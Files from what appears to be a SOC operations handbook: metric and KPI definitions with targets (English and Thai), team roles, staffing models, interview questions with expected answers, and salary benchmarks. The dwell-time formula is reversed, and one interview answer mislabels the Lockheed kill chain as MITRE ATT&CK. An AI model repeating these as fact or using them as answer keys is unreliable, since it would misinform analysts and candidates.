### 2.3 Dwell Time

| Attribute | Detail |
|:---|:---|
| **Definition** | Duration a threat actor remains **undetected** in the environment |
| **Formula** | `Compromise Time − Detection Time` |
| **Target** | < 24 hours (industry median: 16 days) |
| **Impact** | Longer dwell time = higher data breach risk and cost |

### 2.4 Escalation Accuracy

| Attribute | Detail |
|:---|:---|
| **Definition** | Percentage of escalations from T1→T2 that are **legitimate** |
| **Formula** | `(Valid Escalations / Total Escalations) × 100%` |
| **Target** | ≥ 85% |
| **Impact** | Poor accuracy wastes Tier 2 capacity |

---

## 3. Capacity Metrics (Team Health)

### 3.1 Alert Volume & Distribution

| Metric | Target | Action if Exceeded |
|:---|:---|:---|
| **Alerts per analyst per shift** | 15–25 | Add staff or automate triage |
| **Queue depth at shift end** | < 10 unassigned | Review staffing model |
| **Alert backlog (> 24h old)** | 0 | Immediate triage sprint |

### 3.2 Analyst Utilization

| Metric | Target | Notes |
|:---|:---|:---|
| **Utilization rate** | 60–80% | > 80% = risk of burnout |
| **Overtime hours** | < 10% of regular hours | Track monthly |
| **Training time** | ≥ 10% of work time | Per individual per month |

### 3.3 Team Health

| Metric | Target | Why It Matters |
|:---|:---|:---|
| **Annual turnover rate** | < 15% | SOC talent is expensive to replace |
| **Average tenure** | > 2 years | Institutional knowledge retention |
| **Certification rate** | ≥ 70% | Team capability baseline |
| **Job satisfaction score** | ≥ 4/5 | Quarterly anonymous survey |

---

## 4. Business Metrics (Value Delivered)

### 4.1 Cost Metrics

| Metric | Formula | Use |
|:---|:---|:---|
| **Cost per incident** | `Total SOC Cost / Total Incidents` | Budget planning |
| **Cost per alert** | `Total SOC Cost / Total Alerts` | Efficiency comparison |
| **Automation savings** | `(Manual Time − Automated Time) × Hourly Rate` | ROI justification |

### 4.2 Business Impact Metrics

| Metric | Definition |
|:---|:---|
| **Prevented breach value** | Estimated cost of breaches prevented by SOC detection |
| **Downtime prevented** | Hours of system downtime avoided through rapid response |
| **Compliance adherence** | % of regulatory requirements met (PDPA, ISO 27001) |

---

## 5. Reporting & Dashboards

### 5.1 Reporting Cadence

| Report | Frequency | Audience | Key Metrics |
|:---|:---|:---|:---|
| **Shift Report** | Per shift | SOC Lead | Queue depth, active incidents, system health |
| **Daily Brief** | Daily | SOC Manager | MTTA, alerts processed, escalations |
| **Weekly Summary** | Weekly | SOC Manager, CISO | MTTD, MTTR, FPR, trends |
| **Monthly SOC Report** | Monthly | CISO, Management | All KPIs, trends, improvements |
| **Quarterly Business Review** | Quarterly | C-Suite, Board | Business metrics, ROI, strategic |

> 📚 **Templates**: [Monthly SOC Report](../11_Reporting_Templates/Monthly_SOC_Report.en.md) · [QBR](../11_Reporting_Templates/Quarterly_Business_Review.en.md) · [KPI Dashboard](KPI_Dashboard_Template.en.md)

### 5.2 Dashboard Panels

Recommended real-time dashboard layout:

| Panel | Visualization | Refresh |
|:---|:---|:---|
| 🚨 Active Incidents by Severity | Pie/donut chart | Real-time |
| 📈 Alert Volume Trend | Line chart (7-day) | 5 min |
| ⏱️ MTTA / MTTR Real-time | Gauge | 5 min |
| 📊 Queue Depth | Bar chart by shift | 5 min |
| 🎯 FPR Weekly Trend | Line chart | Daily |
| 👥 Analyst Workload | Heatmap | 15 min |
| 🌍 Top Source Countries | Geo map | Hourly |
| 🛡️ Detection Coverage | MITRE heatmap | Weekly |

---

## 6. Targets Summary

Quick reference for all metric targets:

| Metric | Target | Severity Segmentation |
|:---|:---:|:---|
| **MTTD** | < 30 min | All severities |
| **MTTA** | < 10 min | All severities |
| **MTTR** | < 60 min | Critical/High |
| **MTTC** | < 24 hours | Critical |
| **FPR** | < 10% | Overall |
| **Detection Coverage** | ≥ 80% | Top 50 MITRE techniques |
| **Dwell Time** | < 24 hours | All incidents |
| **Escalation Accuracy** | ≥ 85% | T1→T2 |
| **Alerts per Analyst** | 15–25 | Per shift |
| **Utilization** | 60–80% | Per analyst |
| **Turnover** | < 15% | Annual |
| **SLA Adherence** | ≥ 95% | All incidents |

---

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md) — Incident lifecycle and SLAs
- [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — Visual dashboard specification
- [Alert Tuning SOP](Alert_Tuning.en.md) — FPR reduction process
- [SOC Assessment Checklist](SOC_Assessment_Checklist.en.md) — Operational readiness
- [SOC Maturity Assessment](SOC_Maturity_Assessment.en.md) — Maturity scoring model
- [SOC Capacity Planning](SOC_Capacity_Planning.en.md) — Staffing and resource planning
- [Shift Handoff Standard](Shift_Handoff.en.md) — Shift operations
- [Monthly SOC Report](../11_Reporting_Templates/Monthly_SOC_Report.en.md) — Report template

## References

- [SANS SOC Metrics — What to Measure](https://www.sans.org/white-papers/soc-metrics/)
- [MITRE SOC Assessment (CAT)](https://cat.mitre.org/)
- [Gartner SOC KPIs](https://www.gartner.com/en/newsroom/press-releases/)
- [NIST Cybersecurity Framework — Measurement](https://csrc.nist.gov/projects/cybersecurity-framework)


---

## File: 06_Operations_Management/SOC_Metrics.th.md

# มาตรฐานตัวชี้วัดและ KPIs ของ SOC

เอกสารนี้กำหนด Key Performance Indicators (KPIs) และตัวชี้วัดการปฏิบัติงานที่ใช้วัด **ประสิทธิผล**, **ประสิทธิภาพ**, และ **สุขภาพทีม** ของ SOC ตัวชี้วัดขับเคลื่อนการปรับปรุงอย่างต่อเนื่องและช่วยจัดสรรทรัพยากรตามข้อมูล

---

## ภาพรวม

```mermaid
graph LR
    Data["📊 ข้อมูลดิบ"] --> Metrics["📈 ตัวชี้วัด"]
    Metrics --> KPIs["🎯 KPIs"]
    KPIs --> Decisions["💡 การตัดสินใจ"]
    Decisions --> Actions["🔧 การปรับปรุง"]
    Actions --> Data
```

| หมวด | เน้น | ตัวอย่างตัวชี้วัด |
|:---|:---|:---|
| ⏱️ **ประสิทธิภาพ** | ตอบสนองเร็วแค่ไหน | MTTD, MTTR, MTTA |
| 🎯 **ประสิทธิผล** | ตรวจจับดีแค่ไหน | FPR, detection coverage, dwell time |
| 👥 **กำลังคน** | ภาระงานและสุขภาพทีม | Alerts ต่อ analyst, burnout, utilization |
| 💰 **ธุรกิจ** | คุณค่าที่ส่งมอบ | ต้นทุนต่อ incident, การป้องกัน breach |
| 📊 **Compliance** | การปฏิบัติตามข้อบังคับ | SLA met %, audit findings |

---

## 1. ตัวชี้วัดประสิทธิภาพ (How Fast)

### 1.1 Mean Time To Detect (MTTD)

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เวลาเฉลี่ยจาก **การบุกรุก** ถึง **SOC ตรวจจับได้** |
| **สูตร** | `Σ(Detection Time − Intrusion Time) / Total Incidents` |
| **เป้าหมาย** | < 30 นาที |
| **การวัด** | ค่าเฉลี่ยรายเดือน |

> 💡 **วิธีปรับปรุง**: เพิ่ม log coverage, behavioral analytics, automated correlation, threat intel feeds

### 1.2 Mean Time To Acknowledge (MTTA)

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เวลาเฉลี่ยจาก **alert ขึ้น** ถึง **analyst รับเรื่อง** |
| **สูตร** | `Σ(Acknowledge Time − Alert Time) / Total Alerts` |
| **เป้าหมาย** | < 10 นาที |
| **การวัด** | ค่าเฉลี่ยรายวัน |

### 1.3 Mean Time To Respond (MTTR)

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เวลาเฉลี่ยจาก **ตรวจจับ** ถึง **containment + remediation** |
| **สูตร** | `Σ(Resolution Time − Detection Time) / Total Incidents` |
| **เป้าหมาย** | < 60 นาที (Critical/High) · < 4 ชม. (Medium) |
| **การวัด** | ค่าเฉลี่ยรายเดือน แยกตามความรุนแรง |

### 1.4 Mean Time To Close (MTTC)

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เวลาเฉลี่ยจาก **เปิด incident** ถึง **ปิดทั้งหมด** (รวม PIR) |
| **เป้าหมาย** | < 24 ชม. (Critical) · < 72 ชม. (High) |

---

## 2. ตัวชี้วัดประสิทธิผล (How Well)

### 2.1 False Positive Rate (FPR)

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เปอร์เซ็นต์ alert ที่เป็น **benign** หลังสืบสวน |
| **สูตร** | `(False Positive Alerts / Total Alerts) × 100%` |
| **เป้าหมาย** | < 10% |

#### การดำเนินการตาม FPR

| ระดับ FPR | การดำเนินการ |
|:---|:---|
| < 5% | ✅ ดีเยี่ยม — คงค่า tuning ปัจจุบัน |
| 5–10% | ⚠️ ยอมรับได้ — ทบทวน 5 กฎที่ noise มากสุด |
| 10–25% | 🟠 ต้องดำเนินการ — sprint ปรับแต่ง |
| > 25% | 🔴 วิกฤต — เน้น tuning ก่อนสร้าง detection ใหม่ |

### 2.2 Detection Coverage

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เปอร์เซ็นต์ **MITRE ATT&CK techniques** ที่มี detection อย่างน้อย 1 ตัว |
| **เป้าหมาย** | ≥ 80% ของ 50 เทคนิคหลัก |
| **การวัด** | ประเมินรายไตรมาส |

### 2.3 Dwell Time

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | ระยะเวลาที่ผู้โจมตีอยู่ใน **ระบบโดยไม่ถูกตรวจจับ** |
| **เป้าหมาย** | < 24 ชม. (ค่าเฉลี่ยอุตสาหกรรม: 16 วัน) |
| **ผลกระทบ** | Dwell time ยาว = ความเสี่ยง data breach สูงขึ้น |

### 2.4 Escalation Accuracy

| แอตทริบิวต์ | รายละเอียด |
|:---|:---|
| **คำจำกัดความ** | เปอร์เซ็นต์ escalation T1→T2 ที่ **ถูกต้อง** |
| **เป้าหมาย** | ≥ 85% |

---

## 3. ตัวชี้วัดกำลังคน (Team Health)

### 3.1 ปริมาณ Alert

| ตัวชี้วัด | เป้าหมาย | การดำเนินการเมื่อเกิน |
|:---|:---|:---|
| **Alerts ต่อ analyst ต่อกะ** | 15–25 | เพิ่มคนหรือ automate triage |
| **ความลึกคิวตอนสิ้นกะ** | < 10 | ทบทวน staffing model |
| **Alert backlog (> 24 ชม.)** | 0 | Triage sprint ทันที |

### 3.2 การใช้ประโยชน์ Analyst

| ตัวชี้วัด | เป้าหมาย | หมายเหตุ |
|:---|:---|:---|
| **Utilization rate** | 60–80% | > 80% = เสี่ยง burnout |
| **ชั่วโมง OT** | < 10% ของเวลาปกติ | ติดตามรายเดือน |
| **เวลาฝึกอบรม** | ≥ 10% ของเวลาทำงาน | ต่อคนต่อเดือน |

### 3.3 สุขภาพทีม

| ตัวชี้วัด | เป้าหมาย | ทำไมสำคัญ |
|:---|:---|:---|
| **อัตราลาออกรายปี** | < 15% | คน SOC มีราคาแพงในการทดแทน |
| **ระยะเวลาทำงานเฉลี่ย** | > 2 ปี | การรักษาความรู้องค์กร |
| **อัตราใบรับรอง** | ≥ 70% | baseline ความสามารถทีม |
| **คะแนนความพึงพอใจ** | ≥ 4/5 | สำรวจรายไตรมาส (ไม่ระบุตัวตน) |

---

## 4. ตัวชี้วัดธุรกิจ (Value Delivered)

| ตัวชี้วัด | สูตร | การใช้งาน |
|:---|:---|:---|
| **ต้นทุนต่อ incident** | `Total SOC Cost / Total Incidents` | วางแผนงบประมาณ |
| **ต้นทุนต่อ alert** | `Total SOC Cost / Total Alerts` | เปรียบเทียบประสิทธิภาพ |
| **ประหยัดจากระบบอัตโนมัติ** | `(เวลา manual − เวลา automated) × อัตราค่าจ้างรายชั่วโมง` | พิสูจน์ ROI |

---

## 5. การรายงานและ Dashboard

### 5.1 ความถี่การรายงาน

| รายงาน | ความถี่ | กลุ่มเป้าหมาย | ตัวชี้วัดหลัก |
|:---|:---|:---|:---|
| **Shift Report** | ทุกกะ | SOC Lead | ความลึกคิว, incidents active |
| **Daily Brief** | รายวัน | SOC Manager | MTTA, alerts ที่ประมวลผล |
| **Weekly Summary** | รายสัปดาห์ | SOC Manager, CISO | MTTD, MTTR, FPR, แนวโน้ม |
| **Monthly SOC Report** | รายเดือน | CISO, Management | KPIs ทั้งหมด |
| **QBR** | รายไตรมาส | C-Suite, Board | ตัวชี้วัดธุรกิจ, ROI |

### 5.2 แผง Dashboard

| แผง | รูปแบบการแสดงผล | รีเฟรช |
|:---|:---|:---|
| 🚨 Incidents ที่ Active ตามความรุนแรง | Pie/donut chart | เรียลไทม์ |
| 📈 แนวโน้มปริมาณ Alert | Line chart (7 วัน) | 5 นาที |
| ⏱️ MTTA / MTTR เรียลไทม์ | Gauge | 5 นาที |
| 📊 ความลึกคิว | Bar chart ตามกะ | 5 นาที |
| 🎯 แนวโน้ม FPR รายสัปดาห์ | Line chart | รายวัน |
| 👥 ภาระงาน Analyst | Heatmap | 15 นาที |
| 🌍 ประเทศต้นทาง Top | Geo map | รายชั่วโมง |
| 🛡️ Detection Coverage | MITRE heatmap | รายสัปดาห์ |

---

## 6. สรุปเป้าหมาย

| ตัวชี้วัด | เป้าหมาย | การแบ่งตามความรุนแรง |
|:---|:---:|:---|
| **MTTD** | < 30 นาที | ทุกระดับ |
| **MTTA** | < 10 นาที | ทุกระดับ |
| **MTTR** | < 60 นาที | Critical/High |
| **MTTC** | < 24 ชม. | Critical |
| **FPR** | < 10% | โดยรวม |
| **Detection Coverage** | ≥ 80% | 50 เทคนิค MITRE หลัก |
| **Dwell Time** | < 24 ชม. | ทุก incident |
| **Escalation Accuracy** | ≥ 85% | T1→T2 |
| **Alerts ต่อ Analyst** | 15–25 | ต่อกะ |
| **Utilization** | 60–80% | ต่อ analyst |
| **อัตราลาออก** | < 15% | รายปี |
| **SLA Adherence** | ≥ 95% | ทุก incident |

---

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../05_Incident_Response/Framework.th.md) — วงจรชีวิต incident และ SLAs
- [KPI Dashboard Template](KPI_Dashboard_Template.th.md) — ข้อกำหนด dashboard
- [Alert Tuning SOP](Alert_Tuning.th.md) — กระบวนการลด FPR
- [เช็คลิสต์ประเมิน SOC](SOC_Assessment_Checklist.th.md) — ความพร้อมปฏิบัติการ
- [ประเมินวุฒิภาวะ SOC](SOC_Maturity_Assessment.th.md) — โมเดลให้คะแนน
- [การวางแผนกำลังคน SOC](SOC_Capacity_Planning.th.md) — การวางแผนคนและทรัพยากร
- [มาตรฐานส่งมอบกะ](Shift_Handoff.th.md) — การปฏิบัติงานกะ

## Metrics Collection & Reporting

### Operational Metrics Template

| Metric | Source | Collection | Target |
|:---|:---|:---|:---|
| Total Alerts | SIEM | Auto/daily | Trend ↓ |
| True Positive Rate | Ticketing | Weekly | > 80% |
| MTTR | Ticketing | Auto | < 4 hrs |
| Escalation Rate | Ticketing | Weekly | 10-15% |
| Coverage (ATT&CK) | Rule mapping | Monthly | > 60% |

### Executive Reporting Cadence

| Report | Audience | Frequency | Content |
|:---|:---|:---|:---|
| Daily Brief | SOC Team | Daily | Open incidents, alerts |
| Weekly Summary | IT Management | Weekly | Trends, KPIs |
| Monthly Report | CISO | Monthly | Full metrics, risks |
| Quarterly Review | Board | Quarterly | ROI, maturity, roadmap |

### Metric Health Indicators

| Metric | Green | Yellow | Red |
|:---|:---|:---|:---|
| MTTR | < 4 hrs | 4-8 hrs | > 8 hrs |
| FP Rate | < 20% | 20-40% | > 40% |
| SLA Met | > 95% | 85-95% | < 85% |

### Metric Review Cadence

| Level | Frequency | Audience |
|:---|:---|:---|
| Operational | Daily | SOC team |
| Tactical | Weekly | Management |
| Strategic | Monthly | CISO/Board |

## อ้างอิง (References)

- [SANS SOC Metrics](https://www.sans.org/white-papers/soc-metrics/)
- [MITRE SOC Assessment (CAT)](https://cat.mitre.org/)
- [NIST Cybersecurity Framework](https://csrc.nist.gov/projects/cybersecurity-framework)


---

## File: 06_Operations_Management/SOC_Team_Structure.en.md

# SOC Team Structure & Roles

This document defines the organizational structure, roles, and responsibilities within the Security Operations Center (SOC).

## 1. Organizational Chart

```mermaid
graph TD
    CISO[CISO / VP of Security] --> Manager[SOC Manager]
    Manager --> Lead1[Team Lead - Shift A]
    Manager --> Lead2[Team Lead - Shift B]
    Manager --> Engineer[Detection Engineer]
    Manager --> TI[Threat Intelligence Analyst]
    Lead1 --> T2A[Tier 2 Analyst]
    Lead1 --> T1A1[Tier 1 Analyst]
    Lead1 --> T1A2[Tier 1 Analyst]
    Lead2 --> T2B[Tier 2 Analyst]
    Lead2 --> T1B1[Tier 1 Analyst]
    Lead2 --> T1B2[Tier 1 Analyst]

    style CISO fill:#1a1a2e,color:#fff
    style Manager fill:#16213e,color:#fff
    style Lead1 fill:#0f3460,color:#fff
    style Lead2 fill:#0f3460,color:#fff
    style Engineer fill:#533483,color:#fff
    style TI fill:#533483,color:#fff
```

## 2. Role Definitions

### 2.1 Tier 1 — Alert Analyst (Monitoring & Triage)
-   **Headcount**: 4-6 per SOC (2-3 per shift)
-   **Responsibilities**:
    -   Monitor SIEM dashboards and alert queues in real-time.
    -   Perform initial triage: True Positive vs. False Positive classification.
    -   Escalate confirmed incidents to Tier 2 with initial context.
    -   Document actions in the ticketing system.
-   **Skills Required**: CompTIA Security+, basic networking, log analysis.
-   **KPIs**: Alert Throughput, False Positive Rate, MTTD (Mean Time To Detect).

### 2.2 Tier 2 — Incident Responder (Investigation & Containment)
-   **Headcount**: 2-4 per SOC (1-2 per shift)
-   **Responsibilities**:
    -   Deep-dive investigation on escalated incidents.
    -   Execute Playbook containment and eradication steps.
    -   Perform host & network forensics (memory, disk, packet capture).
    -   Coordinate with IT teams for isolation and remediation.
-   **Skills Required**: CySA+, GCIH, EDR/SIEM advanced queries, forensics tools.
-   **KPIs**: MTTR (Mean Time To Respond), Incident Closure Rate.

### 2.3 Tier 3 — Threat Hunter / Senior Analyst
-   **Headcount**: 1-2 per SOC
-   **Responsibilities**:
    -   Proactive threat hunting using hypothesis-driven methodologies.
    -   Advanced malware analysis and reverse engineering.
    -   Develop custom detection content (Sigma, YARA, Snort).
    -   Lead major incident investigations and Root Cause Analysis (RCA).
-   **Skills Required**: GCIA, GCFA, OSCP, advanced scripting (Python, PowerShell).
-   **KPIs**: Threats Discovered, Detection Gap Reduction, TTPs Mapped to MITRE ATT&CK.

### 2.4 Detection Engineer
-   **Headcount**: 1-2 per SOC
-   **Responsibilities**:
    -   Create and maintain detection rules (Sigma/YARA/Snort).
    -   Tune rules to reduce False Positive Rate.
    -   Manage CI/CD pipeline for rule deployment.
    -   Maintain the MITRE ATT&CK coverage dashboard.
-   **Skills Required**: Sigma, regex, SIEM query languages (SPL, KQL, Lucene).

### 2.5 Threat Intelligence Analyst
-   **Headcount**: 1 per SOC
-   **Responsibilities**:
    -   Collect, analyze, and disseminate threat intelligence (CTI).
    -   Maintain threat feeds and IOC databases.
    -   Produce Threat Advisory reports for stakeholders.
    -   Map adversary TTPs to organizational risk.
-   **Skills Required**: CTIA, OSINT techniques, TLP classification, STIX/TAXII.

### 2.6 SOC Manager
-   **Headcount**: 1 per SOC
-   **Responsibilities**:
    -   Oversee daily SOC operations and shift scheduling.
    -   Set KPIs and report metrics to CISO/Leadership.
    -   Manage staffing, training, and career development.
    -   Coordinate with external teams (IT, Legal, HR) during major incidents.
    -   Budget management for tools and licensing.
-   **Skills Required**: CISSP, CISM, leadership and communication skills.

## 3. Career Progression Path

```mermaid
graph LR
    T1[Tier 1 Analyst] -->|1-2 Years| T2[Tier 2 Responder]
    T2 -->|2-3 Years| T3[Tier 3 Hunter]
    T2 -->|2-3 Years| DE[Detection Engineer]
    T2 -->|2-3 Years| TI[Threat Intel Analyst]
    T3 -->|3-5 Years| Lead[Team Lead]
    DE -->|3-5 Years| Lead
    TI -->|3-5 Years| Lead
    Lead -->|5+ Years| MGR[SOC Manager]
    MGR -->|7+ Years| CISO[CISO]
```

## 4. Recommended Staffing Model

| SOC Volume | Tier 1 | Tier 2 | Tier 3 | Det. Engineer | TI Analyst | Manager | Total |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| **Small** (<500 alerts/day) | 2 | 1 | 0 | 1 (shared) | 0 | 1 | 5 |
| **Medium** (500-2000/day) | 4 | 2 | 1 | 1 | 1 | 1 | 10 |
| **Large** (>2000/day, 24/7) | 8 | 4 | 2 | 2 | 1 | 1 | 18 |

## 5. Interview Questions by Tier

### Tier 1 Candidates
| # | Question | Expected Answer |
|:---|:---|:---|
| 1 | What is the difference between a True Positive and a False Positive? | TP = real threat confirmed; FP = alert triggered but not a real threat |
| 2 | You see 50 failed logins from one IP. What do you do? | Check if it's brute force, verify the source IP, check if account locked, escalate if confirmed |
| 3 | What is TLP:RED? | Restricted to named participants only — cannot be shared |
| 4 | Walk me through triaging a phishing alert. | Check sender, links, attachments, headers, check if user clicked, check IOCs in SIEM |
| 5 | What logs would you check for a Windows lateral movement alert? | Event IDs 4624/4625 (logon), 5140 (share access), Sysmon, EDR |

### Tier 2 Candidates
| # | Question | Expected Answer |
|:---|:---|:---|
| 1 | How would you investigate a suspected C2 callback? | Analyze network traffic (beaconing), check process tree, identify parent process, isolate host |
| 2 | Explain the MITRE ATT&CK kill chain. | Recon → Weaponize → Deliver → Exploit → Install → C2 → Actions on Objectives |
| 3 | When should you isolate a host vs. just monitoring? | Isolate: confirmed malware, active C2, data exfiltration. Monitor: suspicious but unconfirmed |
| 4 | Write a Splunk query to find PowerShell encoded commands. | `index=sysmon EventCode=1 CommandLine="*-enc*" OR CommandLine="*encodedcommand*"` |
| 5 | How do you determine the blast radius of a compromised account? | Check auth logs for where account logged in, file access, email rules, AD changes |

### Tier 3 Candidates
| # | Question | Expected Answer |
|:---|:---|:---|
| 1 | Describe your threat hunting methodology. | Hypothesis → data collection → analysis → findings → detection rule creation |
| 2 | How would you detect living-off-the-land attacks? | Monitor LOLBins (certutil, mshta, rundll32), parent-child process anomalies |
| 3 | Walk through your malware analysis workflow. | Sandbox → static (strings, imports, PE) → dynamic (behavior, C2) → YARA rule |
| 4 | How do you create a Sigma rule from an investigation finding? | Identify log source, define detection logic, set level/status, test against FP |
| 5 | How would you detect DNS tunneling? | Long subdomains, high query volume to single domain, entropy analysis |

## 6. Skills Matrix & Training Plan

| Skill | T1 Required | T2 Required | T3 Required | Training Resource |
|:---|:---:|:---:|:---:|:---|
| SIEM queries (basic) | ✅ | ✅ | ✅ | Internal training |
| SIEM queries (advanced) | ❌ | ✅ | ✅ | Splunk/Elastic cert |
| Networking (TCP/IP, DNS) | ✅ | ✅ | ✅ | CompTIA Network+ |
| Log analysis | ✅ | ✅ | ✅ | SANS SEC555 |
| Incident Response | Basic | ✅ | ✅ | GCIH / CySA+ |
| Forensics | ❌ | Basic | ✅ | GCFA / SANS FOR508 |
| Malware analysis | ❌ | ❌ | ✅ | GREM / SANS FOR610 |
| Threat hunting | ❌ | ❌ | ✅ | SANS FOR508 |
| Detection engineering | ❌ | Basic | ✅ | Internal + Sigma docs |
| Scripting (Python/PS) | ❌ | Basic | ✅ | Self-study / courses |
| MITRE ATT&CK | Awareness | Working | Expert | ATT&CK training |

## 7. Salary Benchmarks (Thailand Market, 2026)

> **Note**: Ranges are approximate and vary by organization size, industry, and location.

| Role | Experience | Monthly Range (THB) | Certifications that Add Value |
|:---|:---|:---|:---|
| T1 Analyst | 0-2 years | 25,000 – 45,000 | CompTIA Security+, CySA+ |
| T2 Analyst | 2-4 years | 40,000 – 70,000 | GCIH, CySA+, OSCP |
| T3 Analyst | 4-7 years | 60,000 – 100,000 | GCFA, GREM, OSCP |
| Detection Engineer | 3-5 years | 50,000 – 90,000 | Sigma/YARA expertise |
| TI Analyst | 3-5 years | 45,000 – 80,000 | CTIA, OSINT certs |
| SOC Manager | 5-10 years | 80,000 – 150,000 | CISSP, CISM |

## Related Documents
-   [Shift Handoff Standard](Shift_Handoff.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)
-   [Analyst Onboarding Path](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md)
-   [Training Checklist](../10_Training_Onboarding/Training_Checklist.en.md)
-   [SOC Assessment Checklist](SOC_Assessment_Checklist.en.md)

## References
-   [NIST SP 800-61r2 (Incident Handling Guide)](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [SANS SOC Survey & Analyst Reports](https://www.sans.org/white-papers/soc-survey/)
-   [MITRE ATT&CK — Threat-Informed Defense](https://attack.mitre.org/)
-   [FIRST CSIRT Services Framework](https://www.first.org/standards/frameworks/csirts/csirt_services_framework_v2.1)


---

## File: 06_Operations_Management/SOC_Team_Structure.th.md

# โครงสร้างทีม SOC และบทบาทหน้าที่ (SOC Team Structure & Roles)

เอกสารนี้กำหนดโครงสร้างองค์กร บทบาท และความรับผิดชอบภายในศูนย์ปฏิบัติการความปลอดภัย (SOC)

## 1. แผนผังองค์กร (Organizational Chart)

```mermaid
graph TD
    CISO[CISO / รองประธานฝ่ายความปลอดภัย] --> Manager[ผู้จัดการ SOC]
    Manager --> Lead1[หัวหน้าทีม - กะ A]
    Manager --> Lead2[หัวหน้าทีม - กะ B]
    Manager --> Engineer[วิศวกรตรวจจับภัยคุกคาม]
    Manager --> TI[นักวิเคราะห์ Threat Intelligence]
    Lead1 --> T2A[Tier 2 Analyst]
    Lead1 --> T1A1[Tier 1 Analyst]
    Lead1 --> T1A2[Tier 1 Analyst]
    Lead2 --> T2B[Tier 2 Analyst]
    Lead2 --> T1B1[Tier 1 Analyst]
    Lead2 --> T1B2[Tier 1 Analyst]

    style CISO fill:#1a1a2e,color:#fff
    style Manager fill:#16213e,color:#fff
    style Lead1 fill:#0f3460,color:#fff
    style Lead2 fill:#0f3460,color:#fff
    style Engineer fill:#533483,color:#fff
    style TI fill:#533483,color:#fff
```

## 2. คำอธิบายบทบาท (Role Definitions)

### 2.1 Tier 1 — Alert Analyst (เฝ้าระวังและคัดกรอง)
-   **จำนวนคน**: 4-6 คนต่อ SOC (2-3 คนต่อกะ)
-   **ความรับผิดชอบ**:
    -   เฝ้าระวังหน้าจอ SIEM Dashboard และคิว Alert แบบ Real-time
    -   คัดกรองเบื้องต้น: จำแนก True Positive กับ False Positive
    -   ส่งต่อ Incident ที่ยืนยันแล้วไป Tier 2 พร้อมบริบทเบื้องต้น
    -   บันทึกการดำเนินการในระบบ Ticketing
-   **ทักษะที่ต้องการ**: CompTIA Security+, พื้นฐาน Networking, การวิเคราะห์ Log
-   **KPIs**: ปริมาณ Alert ที่ดำเนินการ, อัตรา False Positive, MTTD

### 2.2 Tier 2 — Incident Responder (สืบสวนและจำกัดวง)
-   **จำนวนคน**: 2-4 คนต่อ SOC (1-2 คนต่อกะ)
-   **ความรับผิดชอบ**:
    -   สืบสวนเชิงลึกสำหรับ Incident ที่ส่งต่อมาจาก Tier 1
    -   ดำเนินการตาม Playbook ในส่วนจำกัดวงและกำจัดภัย
    -   ทำ Host & Network Forensics (หน่วยความจำ, ดิสก์, Packet Capture)
    -   ประสานงานกับทีม IT เพื่อ Isolate และแก้ไข
-   **ทักษะที่ต้องการ**: CySA+, GCIH, SIEM/EDR ขั้นสูง, เครื่องมือ Forensics
-   **KPIs**: MTTR (เวลาตอบสนองเฉลี่ย), อัตราการปิด Incident

### 2.3 Tier 3 — Threat Hunter / Senior Analyst (ล่าภัยคุกคามเชิงรุก)
-   **จำนวนคน**: 1-2 คนต่อ SOC
-   **ความรับผิดชอบ**:
    -   ล่าภัยคุกคามเชิงรุก (Proactive Threat Hunting) โดยใช้สมมติฐาน
    -   วิเคราะห์มัลแวร์ขั้นสูงและ Reverse Engineering
    -   พัฒนา Detection Content (Sigma, YARA, Snort)
    -   เป็นผู้นำการสืบสวน Incident สำคัญและวิเคราะห์สาเหตุ (RCA)
-   **ทักษะที่ต้องการ**: GCIA, GCFA, OSCP, เขียนสคริปต์ได้ (Python, PowerShell)
-   **KPIs**: จำนวนภัยคุกคามที่ค้นพบ, ลดช่องว่างการตรวจจับ, TTPs ที่แมปกับ MITRE ATT&CK

### 2.4 Detection Engineer (วิศวกรตรวจจับภัยคุกคาม)
-   **จำนวนคน**: 1-2 คนต่อ SOC
-   **ความรับผิดชอบ**:
    -   สร้างและดูแลกฎการตรวจจับ (Sigma/YARA/Snort)
    -   ปรับแต่งกฎเพื่อลดอัตรา False Positive
    -   จัดการ CI/CD Pipeline สำหรับ Deploy กฎ
    -   ดูแล MITRE ATT&CK Coverage Dashboard
-   **ทักษะที่ต้องการ**: Sigma, Regex, SIEM Query Language (SPL, KQL, Lucene)

### 2.5 Threat Intelligence Analyst (นักวิเคราะห์ข่าวกรองภัยคุกคาม)
-   **จำนวนคน**: 1 คนต่อ SOC
-   **ความรับผิดชอบ**:
    -   รวบรวม วิเคราะห์ และเผยแพร่ข่าวกรองภัยคุกคาม (CTI)
    -   ดูแล Threat Feed และฐานข้อมูล IOC
    -   จัดทำรายงาน Threat Advisory สำหรับผู้บริหาร
    -   แมป TTP ของผู้โจมตีกับความเสี่ยงขององค์กร
-   **ทักษะที่ต้องการ**: CTIA, เทคนิค OSINT, TLP Classification, STIX/TAXII

### 2.6 SOC Manager (ผู้จัดการ SOC)
-   **จำนวนคน**: 1 คนต่อ SOC
-   **ความรับผิดชอบ**:
    -   ดูแลการปฏิบัติงาน SOC ประจำวันและจัดตารางกะ
    -   กำหนด KPI และรายงานตัวชี้วัดให้ CISO/ผู้บริหาร
    -   บริหารอัตรากำลัง การฝึกอบรม และเส้นทางอาชีพ
    -   ประสานงานกับทีมภายนอก (IT, กฎหมาย, HR) ระหว่าง Incident สำคัญ
    -   บริหารงบประมาณสำหรับเครื่องมือและ Licensing
-   **ทักษะที่ต้องการ**: CISSP, CISM, ทักษะภาวะผู้นำและการสื่อสาร

